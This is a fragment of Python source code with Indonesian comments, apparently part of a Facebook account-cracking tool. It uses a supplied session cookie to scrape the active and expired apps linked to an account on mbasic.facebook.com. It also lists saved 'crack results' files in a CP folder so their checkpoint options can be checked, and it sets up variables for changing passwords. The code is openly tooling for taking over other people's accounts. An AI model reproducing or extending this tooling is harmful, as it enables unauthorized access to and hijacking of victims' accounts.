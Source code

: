 			print ("\r%s  \033[0m              ➛ %s%s"%(P,H,game[i].replace("Ditambahkan pada"," Ditambahkan pada")))
	except AttributeError:
		print ("\r    %s\033[0m cookie invalid"%(M))
	w=session.get("https://mbasic.facebook.com/settings/apps/tabbed/?tab=inactive",cookies={"cookie":"noscript=1;"+kuki}).text
	sop = bs4.BeautifulSoup(w,"html.parser")
	x = sop.find("form",method="post")
	game = [i.text for i in x.find_all("h3")]
	try:
		for i in range(len(game)):
			print ("\r%s  \033[0m              ➛ %s"%(P,game[i].replace("Kedaluwarsa"," Kedaluwarsa")))
	except AttributeError:
		print ("\r    %s \033[0mcookie invalid"%(M))

#-----------------------[ DEF CEK OPSI ]--------------------#





M = '\x1b[1;91m' # MERAH
H = '\x1b[1;92m' # HIJAU
K = '\x1b[1;93m' # KUNING
B = '\x1b[1;94m' # BIRU
U = '\x1b[1;95m' # UNGU
O = '\x1b[1;96m' # BIRU MUDA
P = '\x1b[1;97m' # PUTIH
J = '\033[38;2;255;127;0;1m' # ORANGE
N = '\x1b[0m' # WARNA MATI
acak = [M, H, K, B, U, O, P, J]
warna = random.choice(acak)
til ="\033[0m ╰─  "

def jalan(keliling):
	for mau in keliling + '\n':
		sys.stdout.write(mau)
		sys.stdout.flush();jeda(0.03)
		
		
ubah_pass = []
pwbaru = []
pwBaru = []
ubahP = []

def file_cp():
	dirs = os.listdir('CP')
	print ("%s%s%s%s\033[0m\033[0mPilih Hasil Crack Yg Tersimpan Untuk Cek Opsi %s\n"%(U,til,O,U,O))
	for file in dirs:
		print("%s%s\033[0m%s"%(U,til,file));jeda(0.07)
	try:
		print("\n%s%s%s\033[0mMasukan file [ CTH%s: %sCP-%s.txt%s ]"%(U,til,O,M,K,waktu,O))
		opsi()
	except IOError:
		print ('%s%s\033[0mFile Tidak Ada'%(M,til))
		exit()
